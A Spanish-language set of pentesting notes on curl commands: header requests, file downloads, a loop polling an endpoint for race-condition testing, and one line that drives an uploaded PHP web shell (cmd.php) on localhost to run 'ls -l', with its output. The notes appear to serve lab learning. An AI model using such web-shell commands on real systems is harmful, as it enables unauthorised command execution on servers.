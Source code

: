 
---
# Comandos 

## Petición - Encabezados

Petición **GET** 

```bash
curl https://hackycorp.com/ --dump-header - -o /dev/null -s
```

Petición **HEAD**

```bash
curl https://hackycorp.com/ -I
```

---
## Descargar

Renombrando el archivo 

```bash
curl https://example.com/file.txt -o archivo.txt
```

Nombre original

```bash
curl -O https://example.com/file.txt 
```

Indicar ruta y nombre

```bash
curl https://example.com/file.txt -o /home/usuario/Descargas/ruta/archivo.txt
```

---
## Bypass de descargar

Acción: desde el endpoint podemos visualizar la inyección de comandos en la [[Subida de imágenes]]

```bash
curl -s -X GET "http://localhost:9001/upload56/pwned/cmd.php" -G --data-urlencode "cmd=ls -l"
```

Resultado:

```bash
total 4
-rw-r--r-- 1 www-data www-data 33 Jun  9 14:17 cmd.php
```

---
## Consulta automatizada a un endpoint dinámico

Acción: 

```bash
while true; do curl -s X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs; done
```

Resultado:

```bash
Check this out: Hola
Check this out: Hola
Check this out: Hola
Check this out: Hola
Check this out: Hola
Check this out: Hola
Check this out: Hola
Check this out: Hola
...
```

Explicación: Este tipo de técnica puede ser útil en pruebas de seguridad donde observamos cambios dinámicos en un recurso, recolectamos tokens, ejecutamos [Race Condition](../../OWASP%20TOP%2010/Race%20Condition), o monitorizamos respuestas del servidor en tiempo real.

Realizamos peticiones continuas a un endpoint (`/?action=run`) esperando recibir una respuesta que contenga una cadena de texto específica. Usamos `grep` para filtrar esa cadena (`Check this out`) y `html2text` junto con `xargs` para limpiar el resultado y presentarlo en texto plano.

- `-s` suprime la barra de progreso.
    
- `grep` filtra solo las líneas que contienen `"Check this out"`.
    
- `html2text` convierte HTML a texto plano (requiere tenerlo instalado).
    
- `xargs` elimina saltos de línea adicionales o espacios al final.

---
